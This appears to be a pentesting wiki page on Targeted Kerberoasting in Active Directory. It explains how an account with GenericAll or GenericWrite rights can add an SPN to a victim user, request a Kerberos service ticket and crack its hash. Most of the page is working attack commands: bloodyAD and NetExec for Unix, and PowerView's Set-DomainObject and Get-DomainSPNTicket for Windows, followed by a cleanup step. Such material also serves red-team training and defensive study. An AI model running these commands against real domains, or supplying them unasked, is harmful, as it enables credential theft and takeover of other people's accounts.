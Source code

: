 # Kerberoasting

This abuse can be carried out when controlling an object that has a GenericAll, GenericWrite, WriteProperty or Validated-SPN over the target. A member of the Account Operator group usually has those permissions.

The attacker can add an SPN (ServicePrincipalName) to that account. Once the account has an SPN, it becomes vulnerable to Kerberoasting. This technique is called Targeted Kerberoasting.

**Unix**
```
# Add a SPN to attribute to the targeted account
bloodyAD -d "$DOMAIN" --host "$DC_HOST" -u "$USER" -p "$PASSWORD" set object "$TARGET" servicePrincipalName -v 'http/anything'

nxc ldap "$DC_HOST" -d "$DOMAIN" -u "$USER" -H "$NThash" --kerberoasting kerberoastables.txt
```

**Windows**
```
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.